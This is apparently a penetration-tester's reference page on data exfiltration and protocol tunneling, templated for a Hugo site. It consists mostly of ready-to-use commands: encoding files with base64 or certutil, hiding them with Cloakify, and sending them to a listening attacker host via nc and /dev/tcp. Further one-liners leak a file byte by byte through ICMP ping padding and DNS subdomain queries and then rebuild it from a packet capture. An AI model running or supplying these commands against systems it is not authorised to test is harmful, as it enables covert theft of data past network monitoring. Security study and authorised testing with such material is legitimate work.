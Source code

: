 ```yaml
---
menu: Data Exfiltration
title: Data Exfiltration and Protocol Tunneling
weight: 600
---
```


# Exfiltration

Data exfiltration,
also called data extrusion or data exportation,
is the unauthorized transfer of data
from a device or network.[^mitre-exfiltration]

## Encoding

### Base64

Linux encoding/decoding.

```sh
cat {{< param "war.tfile" >}} | base64 -w0
```

```sh
cat {{< param "war.tfile" >}} | base64 -d
```

{{<details "Parameters">}}
- `-w<col>`:  wrap encoded lines after `<col>` character (default 76).
- `-d`: decode data.
{{</details>}}

Windows encoding/decoding.

```ps
certutil -encode {{< param "war.tfile" >}} output.ext
```

```ps
certutil -decode {{< param "war.tfile" >}} output.ext
```

### Steganography

#### Cloakify [^cloakify]
```sh
python ./cloakify.py {{< param "war.tfile" >}} ./ciphers/topWebsites
```

Alternatively:

```sh
python ./cloakifyFactory
```

## File Transfer

#### wget (recursive)

```sh
wget -r {{< param "war.rhost" >}}:{{< param "war.lport" >}}
```
{{<details "Parameters">}}
- `-r`: Specify recursive download.
{{</details>}}

#### curl
```sh
curl {{< param "war.rhost" >}}/{{< param "war.tfile" >}} -o {{< param "war.tfile" >}}
```
{{<details "Parameters">}}
- `-o <file>`:  Write to `<file>` instead of stdout.
{{</details>}}

#### scp
```sh
scp user@{{< param "war.rhost" >}}:/{{< param "war.tfile" >}} .
```

#### nc

```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
nc -nv {{< param "war.lhost" >}} {{< param "war.lport" >}} < {{< param "war.tfile" >}}
```

{{<details "Parameters">}}
- `n`: don't do DNS lookups.
- `v`: prints status messages.
- `l`: listen.
- `p <port>`: local port used for listening.
{{</details>}}

#### `/dev/tcp` [^devref]
```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
cat {{< param "war.tfile" >}} > /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
```

```sh
# Sender
nc -w5 -nvlp {{< param "war.lport" >}} < {{< param "war.tfile" >}}
# Receiver
exec 6< /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
cat <&6 > {{< param "war.tfile" >}}
```

## Web Servers

### Python

```sh
python -m SimpleHTTPServer {{< param "war.lport" >}}
python3 -m http.server {{< param "war.lport" >}}
```

[Simple HTTP Server with File Upload](https://gist.github.com/touilleMan/eb02ea40b93e52604938)

### Ruby

```sh
ruby -run -e httpd . -p{{< param "war.lport" >}}
```

```sh
ruby -r webrick -e 'WEBrick::HTTPServer.new(:Port => {{< param "war.lport" >}}, :DocumentRoot => Dir.pwd).start'
```

### Perl

```sh
perl -MHTTP::Daemon -e '$d = HTTP::Daemon->new(LocalPort => {{< param "war.lport" >}}) or  +die $!; while($c = $d->accept){while($r = $c->get_request){+$c->send_file_response(".".$r->url->path)}}'
```

{{<hint warning>}}
Install `HTTP:Daemon` if not present with: `sudo cpan HTTP::Daemon`
{{</hint>}}

### PHP

```sh
php -S 127.0.0.1:{{< param "war.lport" >}}
```

### NodeJS

[http-server](https://www.npmjs.com/package/http-server)

```sh
npm install -g http-server
http-server -p {{< param "war.lport" >}}
```

[node-static](https://www.npmjs.com/package/node-static)

```sh
npm install -g node-static
static -p {{< param "war.lport" >}}
```

## FTP Servers

### Python

```sh
pip install pyftpdlib
python3 -m pyftpdlib -p {{< param "war.lport" >}}
```

### NodeJS

```sh
npm install -g ftp-srv
ftp-srv ftp://0.0.0.0:{{< param "war.lport" >}} --root ./
```

## Tunneling

### ICMP

Capture ICMP packets
with the following script:

{{<gist maxrodrigo a7a8c4bd7dfe64eb305b4c70dee70233 >}}

Generate ICMP packets from the file hexdump.

```sh
xxd -p -c 8 {{< param "war.tfile" >}} | while read h; do ping -c 1 -p $h {{< param "war.rhost" >}}; done
```

{{<details "Parameters">}}

`xxd`:
- `-p`: Output  in postscript continuous hexdump style. Also known as plain hexdump style.
- `-c <cols>`: Format `<cols>` octets per line.

`ping`:
- `-c <count>`: Stop after sending `<count>` `ECHO_REQUEST` packets.
- `-p`: You may specify up to 16 "pad" bytes to fill out the packet you send.
{{</details>}}

{{<hint warning>}}
Match `xxd` columns (`-c 8`) with the data sliced (`packet[ICMP].load[-8:]`) in the script.
{{</hint>}}

### DNS

Capture DNS packets data.

```sh
sudo tcpdump -n -i {{< param "war.liface" >}} -w dns_exfil.pcap udp and src {{< param "war.rhost" >}} and port 53
```

{{<hint warning>}}
Remember to point the DNS resolution to where packages are being captured.
{{</hint>}}

Generate DNS queries.

```sh
xxd -p -c 16 {{< param "war.tfile" >}} | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```sh
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/\1/' | uniq | paste -sd "" - | xxd -r -p
```

#### PacketWhisper [^packetwhisper]

Capture packages with `tcpdump`,
as described above.
Cloak, exfiltrate and decloak from the cli.

```sh
sudo packetWhisper.py
```

## Further Reading

- [Python HTTPS Simple Server](https://www.maxrodrigo.com/notes/python-https-simple-server.html)

[^mitre-exfiltration]: “Exfiltration, Tactic TA0010 - Enterprise.” MITRE ATT&CK®, https://attack.mitre.org/tactics/TA0010/.
[^cloakify]: TryCatchHCF. “TryCatchHCF/Cloakify: CloakifyFactory.” GitHub, https://github.com/TryCatchHCF/Cloakify.
[^devref]: “/Dev.” The Linux Documentation Project, https://tldp.org/LDP/abs/html/devref1.html.
[^packetwhisper]: TryCatchHCF. “PacketWhisper.” GitHub, https://github.com/TryCatchHCF/PacketWhisper.
